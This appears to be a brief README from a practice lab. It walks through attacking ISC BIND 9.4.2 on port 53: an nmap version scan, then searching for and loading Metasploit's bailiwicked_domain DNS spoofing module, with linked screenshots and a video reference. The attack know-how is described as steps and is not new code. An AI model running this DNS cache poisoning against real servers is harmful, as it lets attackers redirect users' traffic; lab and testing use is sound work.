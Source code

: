 # Port-53-domain-ISC-BIND-9.4.2
1.nmap -sV (target ip)
![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/a884287b-d9c3-4bc1-86a1-fdc5b2aeecbf)
2.msfconsole

3.msf 6 > search bailiwicked_domain

![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/4d97949d-674b-4098-b6dc-2c3856266762)
4.msf 6 > use auxiliary/spoof/dns/bailiwicked_domain

![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/1a086e29-9adc-42bc-b1db-7d4bde73d5a0)
Referance : https://www.youtube.com/watch?v=T6miFkd6z_4

